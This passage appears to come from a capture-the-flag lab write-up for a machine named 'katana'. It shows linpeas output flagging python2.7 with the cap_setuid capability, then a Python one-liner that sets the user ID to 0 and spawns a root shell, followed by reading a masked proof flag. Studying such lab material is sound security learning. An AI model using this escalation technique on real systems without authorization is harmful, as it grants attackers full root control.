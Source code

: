 ## privilege escalation
After uploading `linpeas.sh` to the target server and executing the script it shows the following potential privilege escalation vector.
```bash
www-data@katana:/tmp$ sh linpeas.sh
sh linpeas.sh
...
Files with capabilities (limited to 50):
/usr/bin/ping = cap_net_raw+ep
/usr/bin/python2.7 = cap_setuid+ep
...
```

> We are able to escalate to `root` by using the binary `/usr/bin/python2.7`
{: .prompt-info }

```bash
www-data@katana:/tmp$ /usr/bin/python2.7 -c 'import os; os.setuid(0); os.system("/bin/bash")'
/usr/bin/python2.7 -c 'import os; os.setuid(0); os.system("/bin/bash")'
root@katana:/tmp# id
uid=0(root) gid=33(www-data) groups=33(www-data)
```

> We are root! Yay!
{: .prompt-info }

## get the second flag
```bash
root@katana:/tmp# cd /root
cd /root
root@katana:/root# ls
ls
proof.txt  root.txt
root@katana:/root# cat proof.txt
cat proof.txt
d******************************8
```

Pwned! <@:-)